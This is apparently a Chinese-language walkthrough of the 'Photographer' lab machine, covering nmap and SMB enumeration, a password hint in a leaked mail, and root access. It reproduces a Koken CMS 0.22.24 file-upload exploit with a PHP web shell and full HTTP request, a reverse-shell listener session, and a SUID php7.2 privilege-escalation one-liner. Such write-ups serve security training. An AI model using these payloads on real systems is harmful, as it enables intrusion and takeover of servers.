





## 端口扫描
```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p80,139,445,8000 192.168.1.112
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-24 14:18 CST
Nmap scan report for 192.168.1.112
Host is up (0.0018s latency).

PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Photographer by v1n1v131r4
|_http-server-header: Apache/2.4.18 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8000/tcp open  http    Apache httpd 2.4.18
|_http-generator: Koken 0.22.24
|_http-title: daisa ahomi
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 08:00:27:EA:3D:0D (Oracle VirtualBox virtual NIC)
Service Info: Host: example.com
MAC Address: 08:00:27:F3:CF:BB (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: WAP
Running: Linux 2.4.X|2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.4.20 cpe:/o:linux:linux_kernel:2.6.22
OS details: Tomato 1.28 (Linux 2.4.20), Tomato firmware (Linux 2.6.22)
Network Distance: 1 hop
Service Info: Host: PHOTOGRAPHER

Host script results:
|_clock-skew: mean: 1h19m59s, deviation: 2h18m33s, median: 0s
| smb2-time:
|   date: 2024-04-24T06:18:41
|_  start_date: N/A
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: PHOTOGRAPHER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: photographer
|   NetBIOS computer name: PHOTOGRAPHER\x00
|   Domain name: \x00
|   FQDN: photographer
|_  System time: 2024-04-24T02:18:41-04:00
```

## web渗透

### smb
先看了一下445端口
```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ smbmap -H 192.168.1.112

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)

[+] IP: 192.168.1.112:445       Name: 192.168.1.112             Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        sambashare                                              READ ONLY       Samba on Ubuntu
        IPC$                                                    NO ACCESS       IPC Service (photographer server (Samba, Ubuntu))
```
这里不能smbclient -U直接看，还是80端口信息收集一下

### 80http

全是前端，依托构式

### smb信息收集

回到smbclient居然能连上了
```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ smbclient  //192.168.1.111/sambashare
Password for [WORKGROUP\fforu]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jul 21 09:30:07 2020
  ..                                  D        0  Tue Jul 21 17:44:25 2020
  mailsent.txt                        N      503  Tue Jul 21 09:29:40 2020
  wordpress.bkp.zip                   N 13930308  Tue Jul 21 09:22:23 2020

                278627392 blocks of size 1024. 264268400 blocks available
smb: \> ls
  .                                   D        0  Tue Jul 21 09:30:07 2020
  ..                                  D        0  Tue Jul 21 17:44:25 2020
  mailsent.txt                        N      503  Tue Jul 21 09:29:40 2020
  wordpress.bkp.zip                   N 13930308  Tue Jul 21 09:22:23 2020

                278627392 blocks of size 1024. 264268400 blocks available
```

用enum4linux收集了两个用户名
```bash
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\daisa (Local User)
S-1-22-1-1001 Unix User\agi (Local User)
```

将smbclient的两个文件看一下
```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ cat mailsent.txt
Message-ID: <4129F3CA.2020509@dc.edu>
Date: Mon, 20 Jul 2020 11:40:36 -0400
From: Agi Clarence <agi@photographer.com>
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.0.1) Gecko/20020823 Netscape/7.0
X-Accept-Language: en-us, en
MIME-Version: 1.0
To: Daisa Ahomi <daisa@photographer.com>
Subject: To Do - Daisa Website's
Content-Type: text/plain; charset=us-ascii; format=flowed
Content-Transfer-Encoding: 7bit

Hi Daisa!
Your site is ready now.
Don't forget your secret, my babygirl ;)
```
提示babygirl不要忘记密码，但是也没有明确密码是什么

解压一下另一个压缩包，居然是wordpress
看一下配置文件
找到sql库的用户名及密码
```php
define( 'DB_NAME', 'nome_do_banco_de_dados_aqui' );

/** Usuário do banco de dados MySQL */
define( 'DB_USER', 'nome_de_usuario_aqui' );

/** Senha do banco de dados MySQL */
define( 'DB_PASSWORD', 'senha_aqui' );

/** Nome do host do MySQL */
define( 'DB_HOST', 'localhost' );
```

### 8000

8000端口是一个cms

这样的话应该是有nday的

版本符合，看下漏洞详情
```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ cat 48706.txt
# Exploit Title: Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)
# Date: 2020-07-15
# Exploit Author: v1n1v131r4
# Vendor Homepage: http://koken.me/
# Software Link: https://www.softaculous.com/apps/cms/Koken
# Version: 0.22.24
# Tested on: Linux
# PoC: https://github.com/V1n1v131r4/Bypass-File-Upload-on-Koken-CMS/blob/master/README.md

The Koken CMS upload restrictions are based on a list of allowed file extensions (withelist), which facilitates bypass through the handling of the HTTP request via Burp.

Steps to exploit:

1. Create a malicious PHP file with this content:

   <?php system($_GET['cmd']);?>

2. Save as "image.php.jpg"

3. Authenticated, go to Koken CMS Dashboard, upload your file on "Import Content" button (Library panel) and send the HTTP request to Burp.

4. On Burp, rename your file to "image.php"


POST /koken/api.php?/content HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://target.com/koken/admin/
x-koken-auth: cookie
Content-Type: multipart/form-data; boundary=---------------------------2391361183188899229525551
Content-Length: 1043
Connection: close
Cookie: PHPSESSID= [Cookie value here]

-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="name"

image.php
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="chunk"

0
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="chunks"

1
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="upload_session_start"

1594831856
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="visibility"

public
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="license"

all
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="max_download"

none
-----------------------------2391361183188899229525551
Content-Disposition: form-data; name="file"; filename="image.php"
Content-Type: image/jpeg

<?php system($_GET['cmd']);?>

-----------------------------2391361183188899229525551--
```
文件上传，这个应该要进到系统后台

后台目录是admin，账号密码是上面那封邮件，密码babygirl


按照nday直接传反弹shell
访问反弹shell

## 提权

```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ nc -lvnp 2333
listening on [any] 2333 ...
connect to [192.168.1.101] from (UNKNOWN) [192.168.1.111] 39950
Linux photographer 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 08:08:47 up  3:57,  0 users,  load average: 0.00, 0.04, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (970): Inappropriate ioctl for device
bash: no job control in this shell
www-data@photographer:/$
```
得到反弹shell
这里反弹shell环境有点差，换了个shell
这靶机用了python升级shell后输入字母都变成成双输入了，很奇怪
使用phpsuid提权（还好不是复杂的提权，不然这个shell太差了。
```bash
PS D:\!FFORU\dic\SecLists-master\Web-Shells\FuzzDB> .\nc.exe -lvnp 2222
listening on [any] 2222 ...
connect to [192.168.1.101] from (UNKNOWN) [192.168.1.111] 48484
SOCKET: Shell has connected! PID: 31373
whoami
www-data
pwd
/var/www/html/koken/storage/originals/cf/5f
find / -perm -u=s 2>/dev/null


/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/sbin/pppd
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/php7.2
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/chfn
/bin/ping
/bin/fusermount
/bin/mount
/bin/ping6
/bin/umount
/bin/su
cmd="/bin/bash"
php7.2 -r "pcntl_exec('/bin/bash',['-p']);"
whoami
root
ls /root
proof.txt
cat /root/proof.txt

                                .:/://::::///:-`
                            -/++:+`:--:o:  oo.-/+/:`
                         -++-.`o++s-y:/s: `sh:hy`:-/+:`
                       :o:``oyo/o`. `      ```/-so:+--+/`
                     -o:-`yh//.                 `./ys/-.o/
                    ++.-ys/:/y-                  /s-:/+/:/o`
                   o/ :yo-:hNN                   .MNs./+o--s`
                  ++ soh-/mMMN--.`            `.-/MMMd-o:+ -s
                 .y  /++:NMMMy-.``            ``-:hMMMmoss: +/
                 s-     hMMMN` shyo+:.    -/+syd+ :MMMMo     h
                 h     `MMMMMy./MMMMMd:  +mMMMMN--dMMMMd     s.
                 y     `MMMMMMd`/hdh+..+/.-ohdy--mMMMMMm     +-
                 h      dMMMMd:````  `mmNh   ```./NMMMMs     o.
                 y.     /MMMMNmmmmd/ `s-:o  sdmmmmMMMMN.     h`
                 :o      sMMMMMMMMs.        -hMMMMMMMM/     :o
                  s:     `sMMMMMMMo - . `. . hMMMMMMN+     `y`
                  `s-      +mMMMMMNhd+h/+h+dhMMMMMMd:     `s-
                   `s:    --.sNMMMMMMMMMMMMMMMMMMmo/.    -s.
                     /o.`ohd:`.odNMMMMMMMMMMMMNh+.:os/ `/o`
                      .++-`+y+/:`/ssdmmNNmNds+-/o-hh:-/o-
                        ./+:`:yh:dso/.+-++++ss+h++.:++-
                           -/+/-:-/y+/d:yh-o:+--/+/:`
                              `-///////////////:`


Follow me at: http://v1n1v131r4.com


d41d8cd98f00b204e9800998ecf8427e
```
打下来感觉没什么意思，只要smb拿到信息，猜到用户账户密码找到nday就差不多了